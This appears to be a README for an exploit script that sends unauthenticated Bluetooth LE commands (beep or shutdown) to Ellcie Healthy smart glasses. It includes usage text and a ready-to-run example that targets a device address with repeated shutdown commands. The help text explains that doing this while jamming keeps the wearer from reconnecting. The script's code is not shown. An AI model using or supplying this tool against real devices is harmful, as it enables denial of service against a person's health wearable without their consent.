 # Ellcie Healthy glasses : Remote Command Execution
usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}]


Ellcie-Healthy glasses - Remote Command Execution


optional arguments:

  -h, --help            show this help message and exit
 
 --address ADDRESS     Glasses BLE addresses
 
 --action {BEEP,SHUTDOWN} Action to be executed
 
 --init {1,0}          Should the script activate bluetooth
 
 --keepsending {1,0}   Should we keep sending the request ? Doing so will
                        constantly send the action. That means for example if
                        you jam the device and send the shutdown request, the
                        user won't be able to reconnect again, as the device
                        with again and again shutdown.


### Exemple 
python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN -h
